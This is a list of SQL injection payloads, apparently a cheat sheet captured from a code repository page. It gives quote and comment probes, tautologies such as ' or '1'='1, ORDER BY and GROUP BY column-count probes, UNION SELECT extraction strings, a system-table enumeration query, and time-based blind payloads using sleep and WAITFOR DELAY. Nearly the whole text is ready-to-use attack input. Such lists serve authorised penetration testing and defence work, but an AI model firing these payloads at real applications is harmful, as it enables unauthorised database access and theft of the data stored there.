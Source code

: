 ```bash
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 -- - 
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename -- - 
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
#
/*
-- -
;%00
`
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```
### Detect number of vulnerable columns
```bash
ORDER BY 1-- 
ORDER BY 2-- 
ORDER BY 3-- 
ORDER BY 4-- 
ORDER BY 5-- 
ORDER BY 6-- 
ORDER BY 7-- 
ORDER BY 8-- 
ORDER BY 9-- 
ORDER BY 10-- 

ORDER BY 1# 
ORDER BY 2# 
ORDER BY 3# 
ORDER BY 4# 
ORDER BY 5# 
ORDER BY 6# 
ORDER BY 7# 
ORDER BY 8# 
```